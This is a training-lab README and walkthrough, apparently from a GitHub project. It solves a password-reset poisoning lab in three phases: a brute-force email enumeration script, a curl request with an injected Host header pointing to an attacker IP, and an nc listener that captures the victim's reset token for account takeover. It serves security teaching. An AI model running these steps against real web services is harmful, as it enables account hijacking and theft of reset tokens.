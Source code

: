 # Documentazione

# Goal

The aim of the lab is to exploit the misconfiguration of some web servers that allow an attacker to send a valid reset password email containing a malicious link.

# Readme

The lab is divided into three phases:

1. User Discovery
    
    In this phase you will have to discover a valid user registered to the web server in order to start the recover password procedure using that account.
    
2. Header Injection
    
    You will intercept and edit the recover password request in order to inject the attacker URL; doing so will allow you to send a poisonous email to the victim and if the victim will click on the reset password link you will obtain the unique token identifying the user to reset the password.
    
3. Password Reset
    
    With token you get from the previous step you will be able to change the password of the victim account and gain access to it.
    

If you want to try to solve the lab by yourself there you got some useful informations:

- You can open a virtual browser on the attacker container by reaching [`http://localhost:3000`](http://localhost:3000)
- You can open a shell on the attacker container
- The web server is available at `[http://webserver](http://webserver)` and is only accessible within the intranet, you can use the attacker browser to reach it
- The victim mail client is available at [`http://victim_mail`](http://victim_mail) and is only accessible within the intranet, you can use the attacker browser to reach it

# Solution

The solution will follow the phases described in the documentation.

### User Discovery

This phase consist in discovering a valid user registered to the web server in order to start the recover password procedure using that account.

Using the web server app that is accessible at `http://webserver` you may notice that if you try to login inserting a non existing user, the server will show you an error message saying: “The inserted email do not exist”.

You can use that vulnerability to find a valid user registered to the web server.

The approach that will be used is bruteforcing with a dictionary obtained by sending a lot of POST request with different user email versus the server until you found a valid email. 

You can accomplish this by using a simple python script; luckily for you we already provide a script for doing so, connect with a shell to the attacker machine and reach the `/tools` folder

```bash
cd /tools
```

In it you will find two files:

- `email_dictionary`: a basic dictionary that will save you hours and hours
- `find_email.py`: the script

You can have a detailed look of what the script do and require using:

```bash
python3 find_email.py --help
```

![Tutorial_1.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_1.png?raw=true)

Follow the command to discover a valid user in the lab:

```bash
python3 find_email.py \
--url http://webserver \
--form email \
--message "The inserted email do not exist" \
--dictionary email_dictionary
```

The above command return the `admin123@victimmail.it` email address that we will use as victim.

![Tutorial_2.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_2.png?raw=true)

### Header Injection

In the second phase you will use a web server misconfiguration that allow an attacker to change the “host” parameter contained in header options. The web server during the reset password procedure, will create a link getting the domain from the host field presented in the POST request; normally this field report the server domain (http://webserver) but if an attacker send a post request with a modified host parameter (and the web server do not implement the proper checks) he can send authentic reset email with an arbitrary reset password link.

In order to start the attack you will first need to intercept and block the reset password request;  in order to do that, connect on your browser to [`http://localhost:3000`](http://attacker:3000) to display the attacker container browser. Now with attacker’s browser visit reset password page (navigate to `http://webserver` and press on “Forgot Password”); right clicking wherever in the reset password page will open you a window; select the “Inspect (Q)” and navigate to the “Network“ tab in order to look at all the requests sent from the browser (you may need to refresh the page).

![Tutorial_3.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_3.png?raw=true)

An important tool that firefox browser gives you is the “Block URL” functionality that ask you to specify an IP address to block all requests coming from and to the specified IP allowing you to view and edit all of them. Just insert [`http://webserver`](http://webserver) URL and enable the blocking option:

![Tutorial_4.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_4.png?raw=true)

Now you’re almost ready to launch the attack, in the UI of the page fill the email address with the one that you have obtained in the first phase and click send button.

Firefox will block the sent request and will give you the possibility to copy the query as cURL  (right click on it → Copy Value → Copy as cURL).

![Tutorial_5.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_5.png?raw=true)

Now using a text editor of you choice edit the copied cURL text as follow. 

You need to add a header host filed; you can add any header row by using the `-H` option so in order to inject the malicious host you need to add `-H 'Host: 192.168.1.13:12345'` to the request. The full modified cURL request is then:

```bash
curl -H 'Host: 192.168.1.13:12345' \
'http://webserver/resetpassword?' \
-X POST \
-H 'Content-Type: application/x-www-form-urlencoded' \
--data-raw 'email=admin123@victimmail.it'
```

<aside>
💡 Note that there could be more header option in the original post request, those are not strictly necessary and has been removed in the provided modified cURL.

</aside>

Executing the above command will send a reset mail sent from web server to the admin123@victimmail.it victim email; in the email there will be a malicious link within the reset password button.

Lastly, you have added the “Host:” parameter inserting attackers IP and a custom `12345` port, but in order to receive the token, you need to launch netcat listening on the specified `12345` port using the following in an attacker shell:

```bash
nc -lvnp 12345
```

![Tutorial_6.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_6.png?raw=true)

### Password Reset

You are now going to impersonate the victim that open webmail and click on the reset password link, to do that, open the victim webmail directly from the attacker browser (of course this makes no sense at all but makes the lab easy to use) at `http://victim_mail` 

In the victim mail you will be able to see all the email sent from the web server, if you correctly execute the above phases you should be able to see an email and open it:

![Tutorial_7.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_7.png?raw=true)

As you can see in the mail there is a button with a link, press that button.

Coming back to the attacker shell where you launch netcat you will see the following:

![Tutorial_8.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_8.png?raw=true)

You successfully hijack the reset password request to your machine instead of sending it to the web server; as you can see you obtained the token that allow the web server to identify the user that is requesting the password reset; you can now use it to make the web server believe that you are the victim; just copy the entire URL you see in the request and paste it in the web browser;

![Tutorial_9.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_9.png?raw=true)

Press enter and the web server will allow you to set a new password for the admin123 account.

Note: in order to be able to paste the url in the attacker container browser you may need to use the KASM VNC clipboard utility that is showed as a panel on the left side of the attacker browser.

Create than a password and use it to login with the admin123@victimmail.it email to see if the attack has been successful.

You got it! Victim has been hacked!